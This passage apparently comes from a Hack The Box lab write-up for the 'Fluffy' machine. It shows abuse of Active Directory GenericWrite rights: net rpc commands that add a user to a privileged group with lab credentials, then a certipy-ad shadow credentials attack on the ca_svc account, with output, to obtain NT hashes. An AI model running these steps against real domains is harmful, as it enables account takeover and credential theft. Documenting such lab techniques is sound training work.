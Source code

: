 ![placeholder](assets/img/htb/fluffy/fluffy-bh1.png "GenericWrite privileges")

In addition any member from the `Service Accounts` group had `GenericWrite` privileges over the users `ca_svc`, `ldap_svc` and `winrm_svc`.

Bloodhound's abuse on Linux makes use of `net rpc` so I follow that.

```bash
$ net rpc group addmem "Service Accounts" "j.fleischman" -U "FLUFFY.HTB"/"p.agila"%"prometheusx-303" -S "fluffy.htb"
```

We can also use `net rpc` to verify if the user sucessfully joined the `Service Accounts` group.

```bash
$ net rpc group members "Service Accounts" -U "FLUFFY.HTB"/"p.agila"%"prometheusx-303" -S "fluffy.htb"
FLUFFY\ca_svc
FLUFFY\ldap_svc
FLUFFY\winrm_svc
FLUFFY\j.fleischman
```

User `j.fleischman` is now part of `Service Accounts` group, meaning I can now do a shadow credential attack using `certipy-ad` because anyone from the group has `GenericWrite` privilege on the users. I followed the steps from this [blog](https://i-tracing.com/blog/dacl-shadow-credentials/) to obtain the NT hashes.


```bash
$ certipy-ad shadow auto -u "p.agila"@"fluffy.htb" -p "prometheusx-303" -account "ca_svc"
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '085965fd-8e93-1c97-c5f9-1191c9ae628b'
[*] Adding Key Credential with device ID '085965fd-8e93-1c97-c5f9-1191c9ae628b' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '085965fd-8e93-1c97-c5f9-1191c9ae628b' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@fluffy.htb
[*] Trying to get TGT...
```